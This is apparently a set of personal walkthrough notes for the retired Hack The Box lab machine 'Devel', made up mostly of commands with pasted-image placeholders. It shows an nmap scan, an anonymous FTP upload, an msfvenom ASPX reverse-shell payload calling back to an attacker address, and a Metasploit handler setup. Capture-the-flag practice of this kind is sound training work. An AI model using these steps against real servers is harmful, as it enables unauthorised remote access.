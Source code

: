 https://app.hackthebox.com/machines/3

**Devel** *(EASY - RETIRED)*

```
sudo nmap -A -T4 -p- 10.129.234.141
```

![[Pasted image 20230530170427.png]]

```
echo "this is a test" > test.txt
```

![[Pasted image 20230530164800.png]]

```
ftp 10.129.234.141
```

*anonymous : anonymous*

```
put test.txt
```

![[Pasted image 20230530170808.png]]

```
http://10.129.234.141/test.txt
```

![[Pasted image 20230530170845.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > exploit.aspx
```

![[Pasted image 20230530171010.png]]

```
msfconsole -q
```
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```

![[Pasted image 20230530171632.png]]

![[Pasted image 20230530171753.png]]

![[Pasted image 20230530171849.png]]
![[Pasted image 20230530171931.png]]

```
getuid

sysinfo

```

![[Pasted image 20230530172139.png]]

